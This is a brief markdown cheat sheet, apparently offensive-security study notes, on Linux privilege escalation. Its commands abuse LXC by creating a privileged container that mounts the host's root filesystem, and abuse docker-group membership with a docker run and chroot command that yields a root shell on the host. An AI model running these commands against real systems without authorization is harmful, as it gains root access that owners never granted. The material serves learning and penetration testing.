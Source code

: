 #Linux_PrivilegeEscalation 

### Lxc

- We can modify the root path `/` using the following commands:
```bash
lxc image import {image} {image-name}
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```


### Docker

- If a user belongs to the `docker` group as follows:
```bash
docker-user@nix02:~$ id
uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

- We can mount the root filesystem to our container as follows:
```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

**Note**:
- The `--rm` means that the container will be deleted after we exit and `chroot` command means that we enter a `chroot` jail where `/mnt` will be treated as the root filesystem.
